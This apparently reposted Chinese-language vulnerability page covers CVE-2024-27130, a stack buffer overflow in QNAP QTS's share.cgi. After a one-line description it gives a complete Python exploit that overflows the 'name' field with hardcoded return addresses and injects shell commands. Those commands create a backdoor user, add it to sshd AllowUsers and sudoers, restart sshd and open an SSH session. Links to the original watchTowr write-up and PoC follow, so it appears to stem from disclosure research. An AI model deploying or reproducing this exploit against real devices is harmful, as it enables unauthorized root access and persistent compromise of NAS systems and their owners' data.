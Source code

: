 ## QNAP-QTS溢出导致的未授权RCE漏洞(CVE-2024-27130)

share.cgi的No_Support_ACL函数中未修补的堆栈缓冲区溢出漏洞，该漏洞可让攻击者在满足特定先决条件时执行远程代码。



## 利用脚本

```python
import argparse
import os
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

parser = argparse.ArgumentParser(prog='PoC', description='PoC for CVE-2024-27130', usage="Obtain an 'ssid' by requesting a NAS user to share a file to you.")
parser.add_argument('host')
parser.add_argument('ssid')

def main(args):
    docmd(args, f"/../../../../usr/local/bin/useradd -p \\"$(openssl passwd -6 {parsedArgs.password})\\" watchtowr  #".encode('ascii'))
    docmd(args, b"/bin/sed -i -e 's/AllowUsers /AllowUsers watchtowr /' /etc/config/ssh/sshd_config # ")
    docmd(args, b"/../../../../bin/echo watchtowr ALL=\\\\(ALL\\\\) ALL >> /usr/etc/sudoers # ")
    docmd(args, b"/../../../../usr/bin/killall -SIGHUP sshd # ")

def docmd(args, cmd):
    print(f"Doing command '{cmd}'")
    buf = cmd
    buf = buf + b'A' * (4082 - len(buf))
    buf = buf + (0x54140508).to_bytes(4, 'little')  # delimiter
    buf = buf + (0x54140508).to_bytes(4, 'little')  # r0 and r3
    buf = buf + (0x54140508).to_bytes(4, 'little')  #
    buf = buf + (0x54140508).to_bytes(4, 'little')  # r7
    buf = buf + (0x73af5148).to_bytes(4, 'little')  # pc

    payload = {
        'ssid': args.ssid,
        'func': 'get_file_size',
        'total': '1',
        'path': '/',
        'name': buf
    }

    requests.post(
        f"https://{args.host}/cgi-bin/filemanager/share.cgi",
        verify=False,
        data=payload,
        timeout=2
    )

def makeRandomString():
    chars = "ABCDEFGHJKLMNPQRSTUVWXYZ23456789"
    return "".join(chars[c % len(chars)] for c in os.urandom(8))

parsedArgs = parser.parse_args()
parsedArgs.password = makeRandomString()

main(parsedArgs)
print(f"Created new user OK. Log in with password '{parsedArgs.password}' when prompted.")
os.system(f'ssh watchtowr@{parsedArgs.host}')
```



## 漏洞分析

- [QNAP QTS - QNAPping At The Wheel (CVE-2024-27130 and friends) (watchtowr.com)](https://labs.watchtowr.com/qnap-qts-qnapping-at-the-wheel-cve-2024-27130-and-friends/)
- [watchtowrlabs/CVE-2024-27130: PoC for CVE-2024-27130 (github.com)](https://github.com/watchtowrlabs/CVE-2024-27130)